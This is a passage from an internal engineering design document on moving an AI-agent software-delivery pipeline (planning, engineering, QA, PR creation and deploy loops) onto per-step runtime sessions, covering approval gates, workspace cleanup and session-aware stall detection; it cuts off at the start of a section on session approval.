The runtime appends **only** its own tool documentation and nothing else. It does not call `loadSystemPrompt`, does not read `KB_BUCKET`, does not know `KB_PREFIX`. Note in passing: `scripts/sync-knowledge-base.sh:7` targets `command-center-engineering-kb-dev`, **not** the `sherpa_kb` bucket (`aws_s3_bucket.sherpa_kb`, `sherpa-ec2.tf:264-269`) — so CC's KB and the runtime's KB are already separate buckets, which is exactly what decision 8 wants and one less thing to disentangle.

**Every subsequent message is also CC-authored.** The four message kinds:

| Trigger | Message CC sends | Built from |
|---|---|---|
| Session create (`plan`) | The business goal, attached documents, chat transcript, RAG context, and the plan output contract | `expandBusinessGoals`' prompt (`index.js:1451-1489`) and `generatePlan`'s (`orchestratorHandler.js:217-354`), merged |
| Plan approved | "The plan below was approved by `<actor>`. Implement it." + the persisted `expandedRequirements` | `cycle.expandedRequirements` + `cycle.approvedPlan` |
| QA feedback | The QA findings, file+line scoped, plus "address these and call `reportCompletion` again" | `qaResult.findings` |
| Build/deploy failure | The failure classification, the relevant log tail, and the loop-back instruction | existing `continueBuildIteration` / `continueDeployIteration` payloads |

This is why "prompt assembly survives" (§5). `buildEngineeringPrompt` (`orchestratorHandler.js:550-731`) does not vanish — it loses the parts that exist only to fit a whole codebase into a 200K window (`:559-585` token budgeting, `loadApplicationCodebase` at `:1224-1369`), because the agent now reads the repo itself, and keeps the parts that state what to build.

---

## 3. Per-step data flow

State lives in exactly two places: **DynamoDB** (cycle record — system of record) and the **runtime session** (working tree, conversation, `AgentSession`). Nothing durable lives only in the second.



### 3.1 Planning

```
POST /v1/applications/{id}/cycles           → cycle created, status = planning
  ↓
POST /v1/sdlc/sessions {mode:'plan', instructions, prompt,
                        correlation:{applicationId, cycleId, stage:'planning'}}
  ↓ persist cycle.planSessionId — invocation ENDS here, holds nothing
  ⋮  (runtime publishes → SQS FIFO, group = sessionId → consumer Lambda per batch)
  ↓
toolStart/toolEnd/progress  → addProgressLog(pk, sk, 'planning', …)   [applyRuntimeEffect, index.js:140-166]
planCreated {filePath, content}
  ↓ parse → cycle.expandedRequirements  (the durable artifact)
sessionStatus: 'completed'
  ↓ applyTransition(cycle, PLANNING_REVIEW, {stage:'awaiting_approval'})
```

**The plan is persisted to DynamoDB as `expandedRequirements`, exactly as today** (`index.js:1277-1295`, `:1285`). That is the artifact the UI renders and the human approves; the session's plan file is a convenience, not the record. The writes stay split across two `UpdateCommand`s for the reason documented at `index.js:1237-1248` (overlapping document paths).

Two shape questions:

- `planCreated` carries `{filePath, content}` — markdown, because `writePlan` writes markdown to `context/plans/<slug>.md` (`engine/tools/workspace-tools.ts:202-225`). `expandedRequirements` is a structured object (§1.4), `recordCheckpoint` counts `requirements.length` / `filesToCreate.length` / `filesToModify.length` (`index.js:1298-1317`), and the plan-review dialog renders four named fields (`ApplicationDetail.jsx:1697-1768`). **Do not ask the planner to write markdown and then parse it back.** Give the plan-mode session a terminal tool, `submitPlan`, whose payload *is* the `expandedRequirements` shape. That keeps a parser out of the loop entirely. `planCreated` remains useful as a progress signal; it is not the contract. **Amended on where the shape is declared:** originally the tool's own `inputSchema`, which turned out never to be enforced at runtime; now the payload is opaque to the runtime and its shape is stated in CC's `instructions` and enforced by a CC-authored `resultSchema` the runtime executes generically (§2.6). The contract is still enforceable at the tool boundary — more so than before — but it is CC's contract, deployable on CC's cadence.

  **The schema is `generatePlan`'s, not a union.** `orchestratorHandler.generatePlan` (`:298-321`) is the primary planner and emits `summary`, `approach`, `requirements[]`, `filesToCreate`, `filesToModify`, `assumptions`, `risks`, `estimatedEffort`. `expandBusinessGoals` is the *fallback* when the router fails (`index.js:1221-1222`) and emits a narrower object without `filesToCreate`/`filesToModify` — which is why `recordCheckpoint`'s evidence counts (`index.js:1298-1317`) were meaningful or zero depending on which one ran. Collapsing to one planner fixes that divergence; taking the union would preserve it.

  It is **`approach`**, not `technicalApproach`, which is emitted by nothing in the repo. Phase 0 fixes the frontend; the plan payload's schema uses `approach`. See §1.4 for the two corrections to how this was originally stated — the panel is about to start rendering, and `approach` has committed non-UI readers that matter more than the panel does.
- Whether `planCreated` is emitted server-side was originally listed as unverified. **Resolved: it is fully wired** — the engine fires the callback from `writePlan`, the runner maps it to a `planCreated` frame, and the runtime broadcasts it. It does not matter much either way, since the plan contract is `submitPlan`'s payload and a missing `planCreated` costs one activity line. Note the adjacent real gap: `AgentSession.plan` exists but nothing writes it, so on an ephemeral clone destroyed at teardown the event is the only durable trace — which is exactly why the tool, not the event, is the contract.

**Failure paths:** `error` event → `PLANNING_FAILED` (recoverable — `retryPlanning` re-enqueues, `sdlcEngine.js` transition table). Session ends with no plan → `PLANNING_FAILED` with the session's last progress message as the error. Consumer throws → SQS retries ×3 → DLQ + alarm (§2.4). Runtime never publishes → `isStalled` at 20 min.

### 3.2 The approval gate

`PLANNING_REVIEW` is an `ATTENTION_STATUS` (`cycleStatuses.js`). `approvePlan` (`index.js:1544`) or `shouldAutoApprovePlan` (`agentDrivenOrchestrator/autoApprove.js:23-31`, PM-triggered only) resolves it. **Unbounded wall-clock: hours to days.**

**Every step entry is a new session. There is no resume path.**

```js
// Create BEFORE release — amended; see below.
const { sessionId } = await createSession({
  mode: 'do', instructions: engineeringInstructions, prompt: approvedPlanMessage,
  branch: cycle.branch, baseBranch: application.github.defaultBranch,
});
cycle.engineeringSessionId = sessionId;   // conditional write — see the guard below

if (cycle.planSessionId) await releaseSession(cycle.planSessionId);   // best-effort
```

**Amended: the ordering is create-then-release, and the reason this document originally gave for the reverse is false.** It claimed *"the outgoing session holds the branch checked out, and git refuses the same branch in two worktrees,"* and built a `409` create-time error on that premise. **The runtime has no worktrees** — it provisions one independent shallow clone per session in its own directory (§1.2). Git's "branch is already checked out" refusal applies to worktrees of one repository; **two separate clones of the same remote can both hold `cycle/12` with no interaction whatsoever.** So there was never a collision to order around, the `409` specified an error the runtime cannot produce, and an implementer would have built dead code to handle it.

With the collision gone, release-first is **strictly worse**: it destroys the outgoing workspace before its replacement exists, so a create that then fails — a `503`, a transient error, a `201 queued` that never starts — leaves the cycle holding neither. **Create-then-release is recoverable in both directions**: a failed create leaves the outgoing session untouched and the cycle can retry; a failed release leaves the new session working.

Two consequences of the reversal:

- **Release failure stops being fatal.** It is logged as a warning, not a cycle failure. The original "retry once, then fail the cycle" severity was justified only by the collision. **But this leans on the TTL sweep, which is not built — see §3.8.**
- **Two workspaces and two slots exist briefly.** On a runtime at its cap the replacement create may come back `201 queued` rather than `active`. That is a delay, not a failure, and it is visible in the create response — better than the old ordering's failure mode of losing both. And because the slot release is asynchronous anyway (§2.3), release-first never reliably freed a slot in time to help.

**Session create needs an idempotency guard.** `createRuntimeSession` followed by `updateItem` (`index.js:1629-1639`) is two operations, and the dispatch runs under an SQS trigger that retries. A retry landing after the session was created but before its id was persisted starts a **second session on the same branch** — two agents, one branch, the collision §3.8 exists to prevent. Guard it the way PR creation already guards itself at `index.js:1857`:

```js
if (cycle.engineeringSessionId) return;   // already dispatched; the retry is a duplicate
```

and persist the id with a `ConditionExpression` asserting it is still absent, so the guard holds under genuine concurrency rather than only under sequential retry. The same applies to `planSessionId` and `qaSessionId`.

The engineering session starts from the **persisted plan**, which is the durable artifact the human approved (§3.1). It does not inherit the planner's conversation or its working tree.

What this costs: the engineer re-reads the codebase rather than inheriting the planner's exploration. Given the plan already enumerates `filesToCreate` and `filesToModify`, that re-read is cheap and targeted.

What it buys, and why it is worth more than the saving:

- **No resume-versus-fresh branching anywhere.** One path, exercised on every cycle, so it cannot rot the way a rarely-taken fallback does.
- **No `modeSwitch` API.** The plan→do transition happens by starting a `do` session, not by mutating a live one — which removes the client-initiated mode switch from the runtime's required surface entirely.
- **The gate's unbounded wall-clock stops mattering.** A multi-day approval is identical to a one-minute one. No stale worktree, no session that may or may not have survived an instance replacement, no dependence on whether the Fargate migration makes workspaces ephemeral (U4).

No cursor state crosses the gate either: the dedup id is per-envelope, not a consumer checkpoint, so each session simply starts its own `messageGroupId`.

### 3.3 Engineering

```
POST /sessions {mode:'do', instructions, prompt: approvedPlan}   → new session
  ↓ applyTransition(cycle, ENGINEERING) — invocation ENDS
  ⋮  (events arrive via SQS; Tier 2 coalesced ~10s, Tier 1 immediate — §2.5)
  ↓
toolStart  {tool:'runCommand', input:{command:'npm test'}}
   → addProgressLog(…, 'engineering', 'Running runCommand', 'npm test')   [runtimeEvents.js:51-59]
toolEnd    {status:'error'}
   → addProgressLog(…, 'engineering', 'runCommand failed', <tail>)        [runtimeEvents.js:61-72]
  ↓
completion {payload: EngineeringCompletion}
  ↓ the engineering-completion sequence — see below
```

#### The engineering-completion sequence is not `routeAfterEngineering`

This is the largest piece of CC work the transport change does not remove, and it is easy to miss because the function name suggests otherwise.

**`routeAfterEngineering` (`index.js:175-309`) does not open a PR.** It contains zero `pulls.create` calls. All it does is branch on `sdlcType` and set a status: `no-qa` and `manual-review` → `PENDING_APPROVAL`, `ci-only` → `QA_WAITING_FOR_TESTS`, `ai-qa` → `QA_TESTING` and then invoke the QA agent. It also **only persists on the `ai-qa` branch** — the `PutCommand` at `:198-204` sits inside that branch, and even there it precedes QA. The other three mutate `cycle` in memory and rely on their caller to write it.

The work that actually happens on engineering completion lives in `processSQSCycleExecution` at `index.js:1839-1941`, ahead of the call, and it is roughly ninety lines:

1. **Validate.** Missing `branchName` or `commitSha` → `FAILED` with an explicit message (`:1843-1847`). A completed session that pushed nothing must not reach PR creation.
2. `cycle.branch = engineeringResult.branchName` (`:1849`).
3. Progress line with the file count, read as `engineeringResult.changes?.files?.length` (`:1852-1853`).
4. `cycle.githubUrl` = the branch tree URL (`:1855`).
5. **Create the draft PR** (`:1863`), guarded by `!cycle.pullRequest?.number` (`:1857`), with the 422 fallback that adopts an existing open PR on retry (`:1881-1899`) and a hard `FAILED` if there is still no PR (`:1903-1907`).
6. **Route** (`:1918-1932`) — and this is where `sdlcType` first matters.
7. **Persist**, with `ConditionExpression` on not-cancelled (`:1934-1941`).

`applyRuntimeEffect`'s `complete` arm (`index.js:152-165`) calls `routeAfterEngineering` and nothing else. So on the runtime path as it stands: **no PR is ever created, `cycle.branch`/`githubUrl`/`buildHeadSha` are never set, and three of the four `sdlcType` branches are never persisted.** The consumer has to own steps 1–7. They are not new logic — they are the existing lines, moved into `backend/common/` alongside `routeAfterEngineering` so both callers share one implementation (§2.4). Extracting rather than reimplementing matters: the 422 fallback and the two `ConditionExpression`s are hard-won retry behaviour that a fresh implementation would omit.

#### The `BUILDING` hop is part of that routing, and it is a real decision

Step 6 is not a straight call to `routeAfterEngineering`. Only `no-qa` and `manual-review` go there directly (`:1921-1922`). For `ai-qa` and `ci-only` the SQS path instead sets **`BUILDING`** with `buildHeadSha` and `pollingStartedAt` (`:1923-1931`), and `routeAfterEngineering` is reached later — by `testResultPoller` once CI reports on the pushed commit (`index.js:2926`).

So the gate is: **CI must pass before QA runs.** Keeping it means the runtime path inherits a poller dependency and a status the session did not produce. Dropping it means QA reviews code whose build state is unknown, and `BUILDING` stops occurring for runtime cycles.

**Keep the hop.** The session runs the build itself, but in-session `npm run build` on the instance is not the same thing as the repo's CI on the pushed commit — different environment, different matrix, and CI is what the PR gates on anyway. Reviewing a commit that CI has already rejected wastes a QA session and produces findings about code that will change. The cost is that `BUILDING` remains poller-driven, which is the one place a runtime cycle still depends on the 5-minute poller.

This also means `cycle.buildHeadSha = payload.commitSha` must be set by the consumer — it is what the poller queries on, and without it a runtime cycle enters `BUILDING` and is never polled.

#### Failure paths

| Failure | Handling |
|---|---|
| `error` event | `applyTransition(ENGINEERING_FAILED)` — Phase 4b. `mapSessionEvent` maps `error` to `FAILED` unconditionally today (`runtimeEvents.js:77-84`); §2.4's stage table corrects it. |
| `completion {outcome:'blocked'}` | `ENGINEERING_FAILED` with `blockedReason`, which is far better than today's silent stall |
| `completion` with no `commitSha`/`branch` | `FAILED` with the explicit message at `index.js:1843-1847`. Step 1 above — do not skip it; it is what stops a no-op session becoming an empty PR. |
| Session pauses (`max_turns`, `llm_error`, `sso-expired`, …) | `sessionStatus: 'paused'` with `reason` (§2.4). Without `reason` on the wire CC cannot tell these apart, and they want different responses. |
| Consumer throws on an event | The session's group freezes ~9 min, then DLQ + alarm (§2.4). Ordering preserved. |
| Runtime never publishes | The one remaining stall case — §3.9 handles it by asking the session, not the clock. |
| Concurrency cap | Create returns 202 with `status: 'queued'` (§2.3), a **union addition** to `SessionStatus` (`session.ts:1`). Without it a queued session is indistinguishable from a running one. |

The build/test loop that `ssmBuildRunner` runs as a separate SSM phase (`agenticBuildLoop`, `ssmBuildRunner.js:732-739`) collapses into the session — the agent runs `npm run build` and `npm test` as `runCommand` calls in its own turn loop. That is in addition to the CI gate above, not instead of it.

### 3.4 PR create — a CC action

The cycle's first PR is opened by the engineering-completion sequence (§3.3, step 5), not by `routeAfterEngineering`. The other create sites belong to later paths. Five `pulls.create` calls exist across two components:

| Site | Enclosing function | Trigger | Draft? |
|---|---|---|---|
| `index.js:1863` | `processSQSCycleExecution` (`:1688`), guarded at `:1857` by `!cycle.pullRequest?.number`. **Moves to `backend/common/` so the consumer shares it — §3.3** | First engineering run succeeded with a branch+sha | Draft. 422 fallback at `:1881-1899` adopts an existing open PR (SQS-retry duplicate); still none → `FAILED` (`:1903-1907`) |
| `index.js:3252` | `continueDeployIteration` (`:3133`) | A deploy failed and the agent produced a fix branch | Non-draft; then GraphQL `enablePullRequestAutoMerge` (`:3281`) with a direct-merge fallback at `:3277` |
| `index.js:3687` | `continueIteration` (`:3467`), else-branch of `:3681` | An iteration ran but an operator had closed the previous PR | Draft, re-created (`:3702`). 422 fallback `:3706-3723` |
| `index.js:4313` | `createPullRequest` (`:4224`), routed from `handler` (`:904`) | Operator/QA-pass driven; gated on status ∈ {`qa_passed`, `pending_approval`} or `stage === 'ready_for_pr'` (`:4237`) and `cycle.branch` (`:4246`) | Non-draft; → `PR_CHECKS_PENDING` (`:4325`). 422 fallback `:4380-4399` |
| `engineeringAgent/index.js:290` | `handleEngineeringTask` | The placeholder demo path | **Deletes** — §5 |

Merge sites: `index.js:3277` (deploy-fix auto-merge fallback), `index.js:4521` (`approvePullRequest`, undrafts at `:4513`, → `DEPLOYING` + `pollingStartedAt` at `:4534-4538`), `index.js:4692` (`mergePullRequest`, routed from `:914`, gated on `PR_APPROVED`/`PENDING_APPROVAL` at `:4659-4666`, → `DEPLOYING` at `:4704-4711`). Completion to `COMPLETED` at `:4757`.

This design does **not** consolidate them. That is a worthwhile cleanup and it is not this change; touching four PR-create paths while also moving execution is how a migration turns into a rewrite. Noted in §7 as R7. Note the two 422-fallback blocks (`:1881-1899`, `:4380-4399`) are load-bearing idempotency for retry, not dead code — preserve them.

The PR body is built from `EngineeringCompletion.summary` + `verification` — strictly better than today, where the body is assembled from the JSON blob's change list.

**Two `engineeringResult` shapes, and they are not the same thing.** The object the consumer builds and passes forward is `{success, branchName, commitSha, changes: {files}}` — that is what the completion sequence reads (`index.js:1849`, `:1852` reads `changes?.files?.length`). The shape in §1.4 — `{success, branchName, commitSha, error, filesChanged, filePaths[], verificationIssues}` — is the **persisted projection** written into `cycle.iterations[n]` (`index.js:1816-1824`). The consumer must produce the first and let the existing persist path derive the second; mapping `EngineeringCompletion` straight onto the persisted shape skips `changes.files` and silently zeroes the file count in the progress line.

### 3.5 QA

QA becomes a session with `mode: 'do'` in **its own clone**, checked out at the engineering commit, with instructions scoped to review rather than implement.

```
POST /v1/sdlc/sessions {mode:'do', commitSha: engineeringResult.commitSha,
                        baseBranch: application.github.defaultBranch,
                        instructions: <qa role prompt>, prompt: <plan + PR context>}
  ↓ applyTransition(cycle, QA_TESTING); persist cycle.qaSessionId
  ↓ events → addProgressLog(…, 'qa', …)
completion {payload: ReviewCompletion}
  ↓ cycle.qaResult = {verdict, summary, findings}
  ↓ CC validates findings against the real diff, then pulls.createReview
```

**Why the commit and not the branch.** A branch is a moving reference — engineering's session may still be alive and may push again on an iteration, so "review the branch" means reviewing whatever the tip happens to be at read time. It matters concretely at the end of the step: CC validates inline comments against the real diff before `pulls.createReview` (`qaAgent/orchestratorHandler.js:288-290`), and those are diff positions of a specific commit. Review a different commit than the PR head and the positions are wrong.

**Why `baseBranch` is required here.** A separate clone has only what it fetched. Reviewing a change means seeing what changed, and `git diff origin/<base>...HEAD` needs the base ref present. A shallow single-branch clone silently cannot do it. So for a `commitSha` checkout, `baseBranch` is not the branch point — it is the diff target, and the runtime must fetch it.

**How QA reviews is left to the instructions, not the API.** It has the code (run the tests, open files the diff does not touch), the base ref (compute the diff locally), and `gh` with GitHub App credentials already on the instance (`sherpa-ec2-cloud-init.sh.tftpl:61-68,155-157`) so it can read the PR as a human reviewer would. The PR number goes in the prompt, not the payload — it is task content, and putting it in the API would hand the runtime an SDLC concept it has no business knowing (§1.1).

Two structural points:

- **QA gets a working tree, which it does not have today.** `qaAgent/orchestratorHandler.js:188` reads the diff through `octokit.paginate(pulls.listFiles)` and reviews it blind — it cannot open a file the diff does not touch, cannot run the tests, and cannot check whether a changed function has other callers. A session can. This is the single largest quality improvement in the migration and it is a side effect, not the goal.
- **Posting the GitHub review stays in CC.** `qaAgent/orchestratorHandler.js:337` calls `pulls.createReview` with inline comments validated against the real diff first (because GitHub 422s otherwise, `:288-291`). That validation logic is load-bearing and it is an API call with no working tree — by decision 7's principle it is an orchestrator action. QA's terminal tool carries the findings; CC posts them.
- **QA's terminal tool is `submitReview`, not `reportCompletion`** (§2.6). A review changes no files, so `reportCompletion`'s empty-tree rule would reject every honest QA completion — and `EngineeringCompletion` has no `findings` field to carry the result. `submitReview`'s payload does, and CC shapes it to survive its own diff validation and feed `pulls.createReview` directly. Amended: that payload is a **CC-side schema**, not a protocol type (§2.6), so CC can change it without a runtime release — which is the whole reason it moved.

**Failure paths:** QA verdict fail → `QA_FAILED`, then the iteration loop creates a **new engineering session** whose first prompt carries the findings (§3.2 — every step entry is a new session), and releases the superseded one (§3.8). `cycle.iterations[]` already tracks this. QA session errors → `QA_FAILED` with the error; `QA_FAILED` is an `ATTENTION_STATUS` so a human can retry.

### 3.6 PR approval, merge, deploy, post-deploy QA

Unchanged. `PENDING_APPROVAL` → `approveCycle` (`index.js:1973`) → merge (§3.4) → `DEPLOYING` → `POST_DEPLOY_QA` → `COMPLETED` (`index.js:4757`). These are GitHub and deploy API calls; no session, no working tree. Post-merge monitoring runs on the poller's timeouts (`testResultPoller/index.js:39-48`: `DEPLOY_NO_RUN_TIMEOUT_MS` 10 min, `DEPLOY_FIX_TIMEOUT_MS` 20 min, `POST_DEPLOY_QA_TIMEOUT_MS` 20 min), keyed off `cycle.pollingStartedAt`.

Two pre-existing defects that this change does not fix and does not worsen, restated so nobody assumes otherwise:

- **The cycle-approval write has a race.** `approvePlan` (`index.js:1544`) and `approveCycle` (`index.js:1973`) read-then-check rather than using a `ConditionExpression`. Two concurrent approvals can both succeed. (`processPlanGeneration` at `index.js:1258-1275` *does* use `ConditionExpression: 'attribute_exists(PK) AND #status <> :cancelled'` — the pattern exists in the file; the approval paths just do not use it.)
- **The one webhook-driven cycle transition is broken.** Generated repos post test results without the required signature header, `common/webhookAuth.js` correctly 401s, and the failure is swallowed. The 5-minute poller is the only working mechanism. Post-merge deploy monitoring depends on the poller, not the webhook.

### 3.7 Deploy-failure loop-back

`DEPLOY_FIX_ENGINEERING` (`cycleStatuses.js`) creates a **new engineering session** whose first prompt carries the deploy failure — structurally identical to the QA loop, differing only in where the text came from and in branching off the default branch, since the cycle's branch is merged and gone by then.

`continueDeployIteration` keeps its classification logic: the infra-versus-code check and the three-attempt cap stay in CC, because deciding whether a failure is worth an agent at all is orchestration, not agent work. It also opens a second PR within the same cycle — a pre-existing stretch of the one-cycle-one-PR model, noted rather than fixed here.

**Amended: this loop was described here and then owned by no phase.** It is now **Phase 6b** (§6), and it is a hard gate on Phase 7 because Phase 7 deletes the function it calls. Until it is migrated its dispatch site must fail loudly on a runtime application rather than falling through to the legacy Bedrock path.

Note this is the **post-merge** deploy path only. A failing CI check *before* merge sets `PR_CHECKS_FAILED` (`testResultPoller/index.js:662,748,763`) and parks for a human — no agent loop today. Whether it should get one is a CC orchestration decision, out of scope here.

---

### 3.8 Workspace lifetime

**A workspace lives as long as its session is the current one for that step.**

Since every step entry creates a new session (§3.2) and every QA iteration creates a new engineering session, a superseded session's workspace has no further use — nothing will ever resume it. **Amended: that is the whole of the reason.** This document originally added that the superseded workspace "still holds the cycle's branch checked out, and git refuses to check out one branch in two worktrees, so retaining it would collide with the very next session on that branch." **There is no such collision** — the runtime uses independent clones, not worktrees (§1.2, §3.2). Reclaiming a workspace is disk hygiene, not a correctness requirement, and the ordering follows from that rather than from a race.

CC calls `DELETE /sessions/{id}` — and **`DELETE`, not `cancel`**, because cancelling a session that is still *queued* does not stop it and it will later start an agent on a terminated cycle's branch (§2.3):

- **On supersede** — when a new session takes over the same step. The plan session is released when engineering starts; an engineering session is released when its replacement starts after a QA or deploy failure.
- **On cycle termination** — `COMPLETED` (PR merged), `CANCELLED`, `REJECTED`, `PLANNING_REJECTED`, or a `FAILED` cycle a human has abandoned. Every session the cycle still holds is released: whichever engineering session is current, and QA.

Release on supersede is the one that matters in practice, because it is what keeps a long cycle from accumulating a workspace per iteration.

The runtime cannot make this call itself. It does not know what a cycle, an iteration, or a merge is, and teaching it would break the boundary in §1.1 for no gain. It only needs to be told.

**A TTL sweep is the backstop, not the mechanism.** CC will sometimes fail to release — a crashed consumer, a cycle record deleted underneath it, a bug in a terminal path that nobody exercises often. A runtime-side sweep that prunes any workspace untouched for N days catches the leak while still knowing nothing about cycles. It must be a backstop rather than the primary mechanism, because a TTL short enough to control disk would also delete workspaces out from under cycles parked at a human gate.

> **⚠ Unbuilt, unowned, and now load-bearing. Amended twice over.**
>
> **The primitive this document nominated is wrong.** It named `pruneWorktrees`, which prunes *worktrees* — and the runtime has none (§1.2). The correct shape is a sweep over `WORKSPACE_BASE_DIR` removing any directory whose name does not correspond to a live session record and whose mtime is older than N days. That needs no cycle knowledge at all: **a workspace directory with no session record is unreachable by construction**, which is exactly the property this paragraph wanted.
>
> **And no phase builds it.** It is referenced as an existing backstop by the amended §3.2, which uses it to justify downgrading a failed release from "fail the cycle" to "log a warning". That justification is currently aspirational.
>
> **This is no longer an inference. Measured on the live testing instance, 2026-09-24: 86 of 89 directories under `/workspaces` contain a `.git`, with mtimes reaching back to 8 June.** Nothing sweeps them. The leak is not a hypothetical consequence of a future design — it is the present state, accumulated by human sessions alone, before this design adds one session per cycle step.
>
> **And a failed or skipped release now leaks two things, not one: a shallow clone *and* a live push credential** (§1.3, §7 R17). The workspace is disk; the credential is a token that a background timer keeps valid indefinitely. Sizing the disk does not address the second.
>
> **So: either build it, or keep the harsher release-failure severity.** Do not keep both the downgrade and the absence. It is a small piece of work — the runtime's workspace manager already owns the base directory and the teardown — and it needs an owner named in the phase plan. Note the sweep must reclaim **both** resources, or it addresses the cheaper half of the leak.

**Sizing is deliberately not solved here** — but the premise it rested on is now falsified, so treat the conclusion as weaker than it reads. Release-on-supersede *would* keep the live set close to one workspace per active step rather than one per iteration, and in the intended design no workspace survives an approval gate. **In practice 86 of 89 workspace directories on the live instance are stale** (above), which says the release path is already not being exercised reliably by the surface that exists today. The `disk_used_percent` alarm (`sherpa-runtime-alarms.tf:47`) is the signal; resizing the volume or shrinking clones is a response to it, not a prerequisite.

### 3.9 Stall handling after cutover

**Elapsed time stops meaning failure.** Today `stuckCycleDetector` (`backend/lambda_handlers/stuckCycleDetector/index.js:22-29`) treats wall-clock as evidence and transitions the cycle itself:

```js
const TIMEOUT_THRESHOLDS = { planning: 5, engineering: 15, qa_testing: 15,
                             iterating: 20, qa_waiting_for_tests: 30 };
```

Those numbers are calibrated to a Lambda-bound agent — `testResultPoller:45` calls it "13min agent + buffer". A runtime session has no such ceiling, and removing that ceiling is the point of the migration. Left as-is, the detector marks genuinely-working sessions `FAILED` at fifteen minutes while the agent keeps running on the instance, orphaned: no one is consuming its completion, and it still holds a workspace and a concurrency slot.

**The fix is not bigger numbers.** Any threshold is a guess about how long real work takes, and a wrong guess in the other direction just delays the same wrong answer. After cutover there is an authoritative source: `GET /sessions/{id}` (§2.3). The session either is or is not still running.

So quiet time changes from a verdict to a **signal**:

**The mechanism, concretely.** `stuckCycleDetector` already runs on `rate(5 minutes)` (`infrastructure/lambdas.tf:2314`) and already scans for stale cycles. It keeps that job and changes what it does on a hit:

1. **Only for cycles with a runtime session id** (`planSessionId`/`engineeringSessionId`/`qaSessionId` set for the current step). Legacy SSM cycles keep today's behaviour and today's thresholds unchanged — this is a branch, not a replacement.
2. **Call `GET /v1/sdlc/sessions/{id}`** — the same ingress the orchestrator uses (§2.1), so `stuckCycleDetector` gains the M2M client and the runtime base URL as env vars. This is the authoritative source, and it is why §2.3's `GET` matters beyond diagnostics.
3. **Act on the answer, in the detector itself.** There is no queue to publish to: the SQS queue runs runtime→CC, and the detector is already on the CC side, so there is nothing to hand off to.

| `GET` result | Meaning | Action |
|---|---|---|
| `200`, `status: 'active'` | Working quietly — expected (see below) | Touch `updatedAt` only, so the next sweep measures from now. Nothing else. |
| `200`, `status: 'queued'` | Waiting behind the concurrency cap | Same. Log it; this is R4 becoming visible. |
| `200`, `status: 'paused'` + `reason` | The session gave up and the terminal event was lost | Fail the cycle with `reason` as the error. |
| `200`, `status: 'completed'` | Terminal event lost in flight | Re-fetch the session and run the completion path from the record — `buildCompletionEffect` (`runtimeEvents.js:113-133`) is exactly this fallback. |
| `404` | Session gone; instance replaced or workspace released | Fail the cycle: `ENGINEERING_FAILED` / `PLANNING_FAILED` / `QA_FAILED` by step. |
| Timeout / `5xx` | Unknown | Do nothing, retry next sweep. Never fail a cycle because the runtime was briefly unreachable. |

The thresholds in `stuckCycleDetector/index.js:22-29` stop being deadlines and become **sweep intervals** — how often to ask, not how long to allow. `engineering: 15` is fine as "ask every fifteen quiet minutes"; it is fatal as "fail at fifteen minutes," which is what it means today.

`retryStalled` (`index.js:3931`) takes the same treatment for the same reason: it acts unilaterally on a time heuristic and should consult the session first. Restarting a session that is still running is the worst outcome available — two agents committing to one branch.

**`updatedAt` is the trigger, and the publish cadence starves it.** `isStalled` keys on `updatedAt` (`cycleStatuses.js:157-164`), which is refreshed by every effect write — and §2.5 deliberately publishes nothing when a 10-second window is empty. A session thinking, or running one long command, writes nothing, so `updatedAt` goes stale on a perfectly healthy cycle. That is not a flaw to fix by adding heartbeats; it is precisely why elapsed time triggers a **question** rather than a verdict.

This is the same fix `retryStalled` (`index.js:3931`) needs, and for the same reason. Both act unilaterally on a time heuristic, and both should consult the session instead. Restarting a session that is actually still running is the worst outcome available — two agents committing to one branch.

Silence is not a symptom.

**This is a Phase 4 prerequisite, not a follow-up.** `stuckCycleDetector` currently carries an `engineering` threshold of fifteen minutes, and a runtime session routinely runs longer than that — that is the point of the migration. Ship Phase 4 without this and every runtime cycle is marked `FAILED` at fifteen minutes while its agent keeps working, orphaned, still holding a workspace and a concurrency slot. Phase 4 cannot pass its own exit criterion without it.

**Amended: `stuckCycleDetector` is not in the deploy pipeline at all.** Its Lambda, log group, schedule, target and permission are all in Terraform and in **none** of `deploy-dev.yml`'s three `-target=` lists. The zip is built, but code deploys happen through `source_code_hash` on a resource that is never targeted, so **a change to `stuckCycleDetector` on `develop` has never reached AWS.** Every session-aware behaviour this section specifies is unshippable until the target list is fixed, and that fix comes with the raw-status-write fix noted in §1.2 — the same file, the same PR.

**Amended again, 2026-09-25 — and the prerequisite is inverted from how this section states it. Read this before deciding it blocks a first run.**

This section makes session-aware stall handling a Phase 4 prerequisite, and the reason it gives is *to stop the detector wrongly failing live runtime sessions at fifteen minutes*. But the detector **cannot be deployed**, so **the fifteen-minute wrong-failure cannot fire either.** The undeployability is currently a **shield, not a hazard**: the runtime path is already protected from the harm the prerequisite existed to prevent.

So the two things this prerequisite bundled together come apart:

| | Status today |
|---|---|
| Stall **protection** — the detector not killing a healthy long-running session | **Already satisfied, by accident.** Nothing can fire. |
| Stall **detection** — noticing a cycle whose session died, or whose publisher never published (R3) | **Absent, and not covered by anything else.** The consumer's fail-closed-to-DLQ behaviour catches *"something arrived that could not be processed"*; it is silent on *"nothing arrived"*, which is the whole failure class the detector exists for. |

**Consequences for sequencing:**

1. **A supervised first run does not need it.** Someone watching the cycle record covers detection manually, and protection is already free.
2. **Unattended cycles do need it**, because the failure it catches — a dead session, a publisher that never published, a `max_turns` pause whose event was lost — has no other signal at all.
3. **The critical point: the moment the target list is fixed, the fifteen-minute wrong-failure becomes live.** So the session-aware branch and the `-target=` entries **must land in the same deploy.** Fixing the target list on its own — which looks like pure hygiene, and which someone will do as a drive-by because it is obviously a bug — **would break every long-running runtime cycle on the next sweep.**

That last point is the reason this is written down rather than left as a footnote: it is exactly the kind of inversion that gets discovered by breaking it.

## 4. The non-interactive session profile

The tool context is assembled once per session and the dispatcher is re-entered by sub-agents and personas, so whatever is decided here applies identically at every nesting depth. That is a real property of the existing design and it is why this can be configured once rather than audited per tool.

**A note on the SDK paths cited throughout §4, because they will waste an hour otherwise.** The deployed runtime runs `@nevadoai/sherpa-core@4.0.1`, which is **~64 commits behind** `sherpa-sdk` HEAD. HEAD relocated the engine under `engine/` and extracted `ToolDispatcher` and `ToolContext` as separate modules; **in the deployed 4.0.1 none of those files exist** and the same code is inline in `agent-engine.ts`. Every `engine/tools/*` and `tool-context.ts` path this document cites is a **HEAD path describing code that is not deployed.** Target **4.0.2, patched from 4.0.1** — not HEAD (§6).

### 4.1 `approval`

